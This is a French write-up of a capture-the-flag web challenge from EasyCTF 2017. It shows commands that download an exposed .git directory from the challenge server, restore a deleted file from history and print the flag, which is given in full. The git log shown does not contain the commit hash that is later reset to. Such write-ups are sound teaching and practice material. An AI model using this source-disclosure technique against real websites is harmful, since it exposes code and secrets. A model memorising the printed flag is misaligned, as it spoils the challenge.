

**Web - Edge -1  - 100pts**



Résolution :

Après quelques test on repère vite le dossier .git disponible sur le site.

On commence par le récupérer :

```BASH
wget -r http://edge1.web.easyctf.com/.git/
```

On affiche l'historique des commit pour retrouver le fichier contenant le flag :

```BASH
git log


commit afdf86202dc8a3c3d671f2106d5cffa593f2b320
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:45 2017 +0000

    Initial.
```

On reset sur le commit qui nous intérresse :

```BASH
git reset ee9061b25d8a35bae8380339f187b44dc26f4999
```
On regarde les fichiers supprimé ou modifié

```BASH
git status

	supprimé :        css/bootstrap.css
	supprimé :        flag.txt
	supprimé :        js/bootstrap.js
	modifié :         js/jquery.js

```
On récupère le fichier flag.txt

```BASH
git checkout flag.txt
```

On affiche le flag :

```BASH
cat flag.txt 

easyctf{w3_ev3n_u53_git}
```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
